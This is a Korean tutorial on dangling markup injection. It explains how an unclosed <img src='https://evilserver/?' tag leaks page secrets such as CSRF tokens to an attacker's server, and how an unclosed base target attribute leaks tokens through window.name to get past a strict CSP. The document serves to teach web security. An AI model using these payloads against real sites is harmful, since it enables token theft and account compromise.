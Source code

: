 Chrome 등 일부 브라우저에는 내장된 댕글링 마크업 완화 기능이 있다. 이는 raw, 인코딩되지 않은 줄 바꿈이나 꺾쇠 괄호와 같은 특정 문자가 포함된 요청을 차단한다. 

일부 CSP 정책은 더욱 제한적이며 모든 형태의 외부 요청을 차단한다. 하지만 사용자 상호작용을 유도하여 이러한 제한을 우회 할 수도 있다. 이러한 정책을 우회하려면 특별한 HTML 엘레먼트를 삽입해야 한다. 이 요소에는 클릭하면 삽입된 요소에 포함된 모든 내용이 저장되어 외부 서버로 전송되도록 하는 코드가 포함된다. 


# 댕글링 마크업으로 중요정보 훔치기 

[댕글링 마크업](https://lcamtuf.coredump.cx/postxss/)은, script 태그 없이, image와 같은 리소스를 이용해서 사이트의 컨텐츠를 공격자의 서버로 전송시켜 내용을 훔치는 테크닉이다. 이는 (HTML 삽입이 가능하지만) 반사형XSS가 통하지 않거나 CSP헤더에 의해서 블록되었을 경우 유용할 수 있다. 

예를 들면 다음과 같은 상황을 생각해보자. 'INJECTION HERE' 부분에 HTML을 삽입할 수 있다. (웹사이트의 방어 메카니즘으로 script등은 사용할 수 없다.)

```html
INJECTION HERE <b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```

여기에서 다음과 같은 댕글링 이미지 태그를 삽입한다고 해보자. 

```html
<img src="https://evilserver/?
```

삽입된 후에는 다음과 같이 될 것이다. 쌍따옴표가 닫히지 않았으므로, script태그 부분이 src속성이 값으로 인식된다. src에 지정된 해커의 서버에 script태그에 포함된 중요정보가 URL의 쿼리 파라메터로 지정되어 전송되게 된다! 중요정보는 CSRF 토큰과 같은 것이 될 수도 있다.

```html
<img src="https://evilserver/?<b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```

# 댕글링 마크업을 사용해서 CSP 우회하기

CSP는 외부의 리소스 로드를 차단함으로써 위에서 설명한 댕글링 마크업 테크닉을 방어한다. 그러나 다음과 같은 정말 엄격한 CSP 헤더를 설정한 사이트여도 우회가 가능한 경우가 있다. 

```
default-src 'none'; base-uri 'none';
```

위 CSP는 댕글링 마크업에서 소개했던 것 같은 image 공격 벡터를 차단한다. 정책이 이미지 리소스나 다른 하위 리소스를 로드하지 않기 때문이다. **그러나 base 태그를 사용해서 이 제한을 우회할 수 있다.** base태그에 target 속성을 지정함으로써 페이지의 모든 링크에 적용되는 window의 이름을 변경할 수 있다. 불완전한 target 속성 값을 삽입함으로써, 삽입 후의 window 이름이 모두 변경된다. 불완전한 target 속성을 삽입하면 삽입 후 페이지의 모든 링크에 있는 상응되는(coresspoding) 따옴표까지 모든 마크업이 변경된 창 이름으로 설정되므로, 삽입 지점과 다음 따옴표 사이에 있는 토큰 등을 훔칠 수 있다. 

공격자가 피해자의 데이터를 훔치려면, 피해자가 링크를 클릭하기만 하면 된다. 예를 들면 아래와 같다. window 이름은 크로스 도메인을 통해 공격자에게 노출되므로 공격자는 window.name 속성을 읽기만 하면 된다. 

```html
<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="blah
```
